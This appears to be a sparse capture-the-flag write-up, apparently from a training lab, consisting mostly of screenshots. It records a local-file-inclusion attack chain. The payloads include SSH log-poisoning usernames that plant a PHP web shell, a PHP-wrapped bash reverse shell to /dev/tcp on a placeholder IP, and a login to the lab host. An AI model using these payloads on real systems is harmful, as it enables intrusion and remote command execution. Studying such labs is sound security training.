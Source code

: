 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)
```
ssh '<?php system($_GET["c"]); ?>'@62.173.140.174 -p 18222 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b1329e2-6d08-489e-ba41-6602ceecd0f1)
```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14e6cc27-f3a7-4e6d-9378-616bc830e1e5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/489e27fa-de48-4828-b03f-e41a62867677)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb44f435-2de2-4764-b247-ae4c58e92df1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/581dcba0-594e-4ad2-9ac6-0525a235bf41)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d521a65d-c4c8-41ba-98e3-4580def623ea)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/507dc651-902e-4159-b0a6-321e1c2ab139)
```
ssh steve@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4afcf2d1-ed79-4424-8bba-c235f718bece)



